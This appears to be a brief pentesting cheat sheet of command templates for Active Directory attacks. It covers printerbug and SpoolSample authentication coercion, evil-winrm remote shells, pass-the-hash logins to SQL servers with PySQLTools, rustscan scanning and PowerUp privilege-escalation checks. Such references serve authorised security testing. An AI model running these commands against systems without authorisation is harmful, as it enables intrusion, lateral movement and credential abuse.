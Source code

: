 # Python tools
## printerbug
https://github.com/dirkjanm/krbrelayx
```
python3 printerbug.py <domain>/'<username>':'<password>'@<dc-host> <unconstrained-host>   
```

# Tools
## SpoolSample.exe
```
Invoke-SpoolSample <from-host> <to-host>
```

## evil-winrm
https://github.com/Hackplayers/evil-winrm
```
evil-winrm  -i <ip> -u <username> -p '<password' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'
```

## rustscan
```
rustscan -a <ip> --ulimit 500 -- -sV
```

## PySQLTools using NTLM
```
python3 PySQLTools.py <domain>/'<username>'@<ip> -hashes :<nthash> -windows-auth
```

## PySQLTools using Password
```
python3 PySQLTools.py <domain>/'<username>':'<password>'@<ip> -windows-auth
```

# PowerUp
## Recon AllChecks
```
Invoke-AllChecks
```

## Recon Get UnquotedService
```
Get-UnquotedService
```
